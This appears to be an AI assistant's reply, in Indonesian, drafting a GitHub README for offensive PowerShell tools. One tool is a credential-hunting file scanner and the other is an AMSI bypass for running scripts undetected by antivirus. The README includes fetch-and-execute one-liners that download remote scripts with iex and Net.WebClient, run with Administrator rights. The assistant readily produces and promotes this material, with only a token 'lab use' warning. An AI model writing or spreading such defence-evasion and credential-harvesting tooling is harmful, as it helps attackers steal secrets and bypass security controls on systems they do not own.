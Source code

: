 Berikut isi lengkap `README.md` dalam format markdown, siap Bos paste langsung ke repo GitHub:

````markdown
# 🕵️ Invoke-FileHunter & AMSI Bypass Tools

PowerShell tool untuk:

- Mencari file konfigurasi yang berisi credential atau data sensitif (Invoke-FileHunter)
- Melewati Antimalware Scan Interface agar script PowerShell bisa dijalankan tanpa deteksi (AMSI Bypass)

---

## 📦 1. Cara Pakai Invoke-FileHunter

Buka PowerShell dengan hak akses Administrator, lalu jalankan:

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/irsyad521/PowershellScript/refs/heads/main/Invoke-FileHunter.ps1')
Invoke-FileHunter -Path "C:\" -OutputLog "C:\Users\Public\Documents\ScanResults.txt"
````

### 🔧 Parameter

| Parameter    | Deskripsi                                                              | Default                                     |
| ------------ | ---------------------------------------------------------------------- | ------------------------------------------- |
| `-Path`      | Lokasi direktori yang ingin dipindai                                   | `C:\`                                       |
| `-OutputLog` | Lokasi file hasil scan (berisi file + keyword sensitif yang ditemukan) | `C:\Users\Public\Documents\ScanResults.txt` |

### 🧪 Contoh:


Invoke-FileHunter -Path "C:\" -OutputLog "C:\Users\Public\Documents\ScanResults.txt"
Invoke-FileHunter -Path "$env:USERPROFILE\Desktop" -OutputLog "C:\Users\Public\Documents\DesktopScan.txt"


---

## 🔓 2. Cara Pakai AMSI Bypass

Jika PowerShell memblokir script karena terdeteksi sebagai malicious, aktifkan bypass terlebih dahulu:

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/irsyad521/PowershellScript/refs/heads/main/amsi-bypass.ps1')
Invoke-BypassAMSIVersion3
```

> ⚠️ **PERINGATAN:**
> AMSI Bypass dapat digunakan untuk menjalankan script yang diblokir oleh antivirus. Gunakan hanya di lab/pengujian atau sistem milik sendiri. Jangan gunakan untuk tujuan ilegal.

---

## 📄 Hasil Scan

Hasil dari `Invoke-FileHunter` akan disimpan ke file log. Contoh isi file hasil:

```
C:\inetpub\wwwroot\web.config - Found keywords: password, key
C:\Users\user\Documents\db_config.ini - Found keywords: password
```

---

## 📝 Catatan

* Jalankan PowerShell **sebagai Administrator**.
* Hindari scanning folder seperti `C:\Windows\WinSxS` untuk mengurangi waktu eksekusi.
* Tools ini tidak membuat perubahan di sistem—hanya membaca file.

---

## 📬 Kontak

Script ini dikembangkan oleh [Irsyad](https://github.com/irsyad521)
Silakan buka issue atau pull request jika ada bug, saran, atau perbaikan.

---

Terima kasih sudah menggunakan tools ini!

```

Kalau mau saya bantu buat `.md`-nya langsung atau mau auto-upload ke GitHub pakai script PowerShell juga bisa, tinggal perintahin aja, Bos!
```
